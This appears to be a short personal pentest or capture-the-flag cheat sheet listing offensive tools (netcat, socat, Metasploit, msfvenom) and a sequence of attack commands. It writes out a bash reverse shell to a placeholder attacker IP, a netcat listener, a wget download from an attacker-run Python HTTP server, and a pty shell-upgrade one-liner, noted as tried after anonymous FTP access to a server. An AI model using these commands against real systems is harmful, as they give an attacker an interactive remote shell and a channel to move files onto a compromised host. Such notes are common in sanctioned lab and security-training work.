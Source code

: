 
**List of Tools**:
	 [[netcat]]
	 [[socat]]
	 [[Metasploit]]
	 [[msfvenom]]


**Tried with anonymous ftp access on server:**
	`#!/bin/bash`
	`bash -i >& /dev/tcp/<Our IP address>/<our port number> 0>&1`
	Listener: `nc -lvnp <port number>` // `rlwrap nc -lnvp <port number>`


**To download any file from a shell on the target...**
	`python -m SimpleHTTPServer`

	`wget http://<server ip>:<same port>/<name of the file>`

**Make strong shell using below script:**
		`python -c 'import pty; pty.spawn("/bin/bash")'`

